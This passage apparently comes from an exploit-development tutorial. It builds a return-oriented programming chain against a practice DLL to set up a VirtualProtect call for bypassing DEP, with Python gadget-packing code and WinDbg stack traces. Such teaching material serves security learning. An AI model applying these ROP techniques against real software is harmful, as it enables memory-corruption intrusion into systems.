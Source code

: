 ```text
0x62501a9d: mov  [esp+0x00], eax ; call  [0x62507124]
```

Let's breakdown the gadget to better understand what it does:

- `mov  [esp+0x00], eax` - Overwrites the top of the stack with the value of `EAX`.
- `call  [0x62507124]`   - Makes a call to the address in which `0x62507124` is pointing to.

While individually they might seem unimpressive, their combined effect in the gadget is potent.

To grasp its function, we'll navigate through a debugger using a specified sequence of gadgets. Here's how the sequence of gadget currently appears:

```python
rop = b''
# 0. preserve location of VirtualProtect skeleton in ECX
rop += struct.pack('<L', 0x625021ff) # nop ; mov ecx, eax ; mov eax, ecx ; pop ebx ; pop esi ; ret
rop += struct.pack('<L', 0x41414141) # junk for ebx
rop += struct.pack('<L', 0x41414141) # junk for esi
###
rop += struct.pack('<L', 0x62501a9d) # mov  [esp+0x00], eax ; call  [0x62507124]
rop += struct.pack('<L', 0x41414141) # junk will be overwritten by [esp + 0x00]
rop += struct.pack('<L', 0x62501d08) # ! int3 (breakpoint instruction) 
```

The breakpoint will be specifically set on the instruction located at `0x62501a9d`.

```text
Breakpoint 0 hit
...
essfunc!EssentialFunc14+0x4d3:
62501a9d 890424   mov dword ptr [esp],eax
```

At the current moment `EAX` points to the start of the `VirtualProtect` skeleton aka `0x011ff228`.

Stepping over the `mov dword ptr [esp],eax` instruction shows that the value on top of the stack is now `0x011ff228`:

```text
0:004> dd esp L1
010efa14  010ef228
```

The next instruction is the one which will make the call to the pointer:

```text
62501aa0 ff1524715062   call dword ptr [essfunc!EssentialFunc14+0x5b5a (62507124)]
```

Let's step into the call and observe the stack:

```text
0:004> dds esp L3
010efa10  62501aa6  // return address pushed via the call instruction
010efa14  011ff228  // EAX (pointer to VirtualProtect skeleton)
010efa18  62501d08  // address of next gadget in chain
```
